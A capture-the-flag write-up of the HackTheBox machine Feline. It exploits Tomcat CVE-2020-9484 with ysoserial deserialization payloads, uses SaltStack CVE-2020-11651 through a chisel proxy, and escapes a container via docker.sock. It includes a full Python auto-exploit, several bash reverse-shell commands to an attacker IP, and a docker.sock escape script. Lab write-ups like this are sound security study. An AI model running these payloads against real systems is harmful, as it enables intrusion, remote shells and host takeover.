

Feline is a Tomcat box. Which you need to understand how deserealization works to get it. The first shell was not soo hard, you just need one exploit to make it working. The privilege escalation part was a little bit trickly because of the container part.

The auto exploit for tomcat user is on the body of the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.205
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 8080

We try to open it on the browser


Seems to be a malware analysis website?!

Everything seems to be no game. The only which works is the services tag

And seems that we can upload a file. It's very interesting


## Upload Analysis

We try to upload a file and get the request on burpsuite


Send to repeater to better work in it

We try to send the request to upload.jsp and it seems to be a invalid filename


We make it right and get the correct message from the server


Ok, file upload success, but we still have nothing. Let's try to play arround and get an error or log message. To see if we get some more information about the server.

When we play with the filename. If we remove it we trigger an error message


We got the upload directory `/opt/samples/uploads`. The problems is that this directory is not being served by the website, so we cannot execute it on the browser.

## Apache Tomcat 9.0.27

So, we start looking fom vulnerabilities for the version of apache we got on the box

We found [this](https://github.com/PenTestical/CVE-2020-9484) github which show some kind of vulnerability including the CVE-2020-9484

Description

```
The vulnerability allows a remote attacker to execute arbitrary code on the target system.

The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

Successful exploitation of this vulnerability may result in complete compromise of vulnerable system but requires that the server is configured to use PersistenceManager with a FileStore and the attacker knows relative file path from storage location.
```

Exactly what we have on the box. So let's try to exploit it

## CVE-2020-9484

This vulnerabiliy is in Apache.

- The server must be configured to use the PersistenceManager
- There must be an upload functionality where the attacker can control the uploaded file name.
- The attacker must know the path of the upload storage location.

We do not know at this point if the server is configured to use the PersistenceManager. However, we do know that all of the other conditions are true.

We donwload the exploit from the github page before and tried to use it, we see how it works, and use a serialized payload and some kind of path transversal. So let's reproduce it.

So, we create a payload with [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

```sh
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 'ping -c 1 10.10.14.20' | base64 -w0 | xclip -selection clipboard
```


Upload it to the server


Unconvert from base64


If we try to copy the content of the payload, it's not going to work properly, so this whay is better!

Uploaded


And then we trigger the payload


Got RCE


So, let's try to get a reverse shell

We create our payload

```sh
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC80NDMgMD4mMQo=}|{base64,-d}|{bash,-i}' > /home/kali/Downloads/rce.session
```


Upload and execute it


Sure! Let's automate the whole things now!

# Tomcat Auto Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


tomcat_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Tomcat Shell - Feline HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
#B64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Download yososerial if it's not alreadt on the working folder    
def downloadPayGen():
    print("[+] Let's test to see if we already have yososerial on the working folder ! [+]")
    output_jar = "ysoserial-master-SNAPSHOT.jar"
    if not os.path.isfile(output_jar):
        print("[+] I did no locate it, let's dowload ! WAAAAAAAIT SOME MINUTES TO COMPLETE IT ! [+]")
        os.system("wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar")
    else:
        print("[+] We already have it, let's exploit !!! [+]")
  
# Create the malicious serialized reverse shell payload
def createBin(lhost,lport):
    print("[+] Let's make our payload !!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    reverse = b64e(reverse)
    cmd = "bash -c {echo,%s}|{base64,-d}|{bash,-i}" %(reverse)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 '%s' > payload.session" %cmd)
    print("[+] Payload Createeeeed !!! [+]")
    
# Upload Malicious session
def maliciousUpload(rhost):
    print("[+] Let's upload our payload !!! [+]")
    url = "http://%s:8080/upload.jsp?email=0x4rt3mis@email.com" %rhost
    data = b''
    multipart_data = {
        'image': ('payload.session', open('payload.session', 'rb'), "application/octet-stream"),
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Uploadeddeded !!! [+]")
    
# Get the reverse
def triggerPayload(rhost):
    print("[+] Let's trigger the reverse shell [+]")
    url = "http://%s:8080/service/" %rhost
    cookies = {"JSESSIONID": "../../../../../../../../../opt/samples/uploads/payload"}
    requests.get(url, cookies=cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--lhost', help='Local ip address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Download the yosoerial
    downloadPayGen()
    # Create the malicious session file
    createBin(lhost,lport)
    #Upload Malicious session
    maliciousUpload(rhost)
    # Get the reverse
    triggerPayload(rhost)

if __name__ == '__main__':
    main()
```

Ok, let's continue our exploration on this box

# Bypass Container

We see that we are on a container on this box, because it has the interface docker0


We see some ports running locally on 4505 and 4506, they are associated to a service called [SaltStack](https://www.saltstack.com)


## CVE-2020-11651

After googling about it, we found the vulnerability on saltstak which leads to unathenticated privileve escalation, and we got this [PoC](https://github.com/jasperla/CVE-2020-11651-poc)

For this works we must use [chisel](https://github.com/jpillora/chisel) to make a proxy between our kali and the feline docker box

We transfer it to the Feline box


Starter the server in my kali

```sh
./chisel server -p 8000 --reverse
```


So, the client and the server receive the connection back

```sh
./chisel client 10.10.14.20:8000 R:socks
```


I change my `proxychains.conf` file


We run the script we found and it's vulnerable


Now, just get a reverse shell

```sh
proxychains python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.20/555 0>&1"'
```


We read the `todo.txt`


# Escaping The Container

After some hard enum we found two posts [1](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/) and [2](https://dejandayoff.com/the-danger-of-exposing-docker.sock/).

We see some good information about escaping container docker in the .bash_history


And start looking for some vulns to escape it. We found some writeups with good explanations also.

This one is simpler, which explains the vulnerability in docker. I found [this](https://eslam3kl.medium.com/hack-the-box-feline-802bdcd0fd38) writeup very useful. And as I'm focused in python script to get the initial acess I'll not lost my time explaining the vuln here.

exploit.sh

```sh
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/10.10.14.20/8888 0>&1'" 
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)  
revShellContainerID=$(echo "$response" | cut -d'"' -f4)     
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start                               
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
```

Download it to the box


We execute it and become root


# Source Code Analysis

After making our ssh key on the box, we download all the source code in /opt

```sh
rsync -azP root@10.10.10.205:/opt/* .
```


We see the upload.jsp file, and how the files are being uploaded to the server

```jsp
<%@ page import="java.util.*" %>
<%@ page import="java.util.regex.*" %>
<%@ page import="java.util.Iterator" %>
<%@ page import="java.io.File" %>
<%@ page import="org.apache.commons.fileupload.servlet.*" %>
<%@ page import="org.apache.commons.fileupload.disk.*"%>
<%@ page import="org.apache.commons.fileupload.servlet.ServletFileUpload"%>
<%@ page import="org.apache.commons.fileupload.disk.DiskFileItemFactory"%>
<%@ page import="org.apache.commons.fileupload.*"%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%

  session.setAttribute("name", request.getParameter("email"));
  String filePath = "";
  boolean isMultipart = ServletFileUpload.isMultipartContent(request);
  
  if(!isMultipart) {
  	out.println("Invalid request");
  	return;
  }

  filePath = "/opt/samples/uploads/";

  FileItemFactory factory = new DiskFileItemFactory();
  ServletFileUpload upload = new ServletFileUpload(factory);

  List items = null;

  try
  {
          items = upload.parseRequest(request);
  } 
  catch (FileUploadException e) 
  {
          out.println("<div id=\"error\">");
          e.printStackTrace(new java.io.PrintWriter(out));
          out.println("</div>");
	  return;
  }

  Iterator itr = items.iterator();

  while (itr.hasNext())
  {
  	FileItem item = (FileItem)(itr.next());

          if (item.isFormField()) 
          {
                  try {
  			String field=item.getFieldName();
  			String value=item.getString();
                  }

                  catch(Exception e) {
                      out.println("<div id=\"error\">");
                      e.printStackTrace(new java.io.PrintWriter(out));
                      out.println("</div>");
	      	      return;
                  }
          } 

          else {
                  try {
  			String itemName = item.getName();
			String pattern = "[a-zA-Z0-9\\.]*";
			if(!itemName.matches(pattern)) {
			  out.println("Invalid filename!");
			  return;
			}
  			File savedFile = new File(filePath + itemName);
  			item.write(savedFile);  
                  } 
                  catch (Exception e) 
                  {
                      out.println("<div id=\"error\">");
                      e.printStackTrace(new java.io.PrintWriter(out));
                      out.println("</div>");
	      	      return;
                  }
          }
  }

  out.println("File uploaded successfully!\n");

%>
```

I did not find the place where it's being deserealized.

We also see the crontab which clean the uploads folder

